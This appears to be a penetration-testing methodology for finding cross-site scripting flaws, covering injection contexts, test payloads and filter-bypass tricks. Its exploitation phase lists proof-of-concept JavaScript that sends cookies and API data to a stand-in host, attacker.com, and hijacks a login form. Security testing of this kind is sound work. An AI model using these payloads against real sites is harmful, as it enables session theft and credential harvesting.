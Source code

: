 ### 2. Context Analysis Phase

- For each reflection point, identify the context:
    - **HTML context**: `<div>user-input</div>`
    - **Attribute context**: `<div id="user-input">`
    - **JavaScript context**: `var data = "user-input";`
    - **CSS context**: `.user-input { color: red; }`
    - **URL context**: `url('user-input')`
- Document specific encoding or filtering observed

### 3. Testing Phase

- For each context, apply specific test payloads:
    - **HTML context tests**:
        
        ```
        <img src=x onerror=alert(1)><svg onload=alert(1)><body onload=alert(1)>
        ```
        
    - **Attribute context tests**:
        
        ```
        " onmouseover="alert(1)" onerror="alert(1)javascript:alert(1)
        ```
        
    - **JavaScript context tests**:
        
        ```
        ';alert(1)//\";alert(1)//</script><img src=x onerror=alert(1)>
        ```
        
- Document exact behavior for each test

### 4. Filter Bypass Phase

- For identified filters, attempt bypasses:
    - **Case variation**: `<iMg sRc=x oNeRrOr=alert(1)>`
    - **Tag obfuscation**: `<img/src="x"/onerror=alert(1)>`
    - **Encoding tricks**: `<img src=x onerror=&#97;&#108;&#101;&#114;&#116;(1)>`
    - **Alternative vectors**: `<svg><animate onbegin=alert(1) attributeName=x>`
    - **Protocol bypasses**: `javascript&#58;alert(1)`
    - **Null bytes**: `<img src=x onerror=alert(1)%00>`
- Document successful bypasses

### 5. Exploitation Phase

- Develop proof-of-concept payloads:
    - Session stealing: `fetch('https://attacker.com/c='+document.cookie)`
    - Data exfiltration: `fetch('/api/user').then(r=>r.json()).then(d=>fetch('https://attacker.com/steal?data='+btoa(JSON.stringify(d))))`
    - DOM manipulation: `document.querySelector('#login-form').action='https://attacker.com/steal'`
- Test impact across different user roles
- Document full attack chains
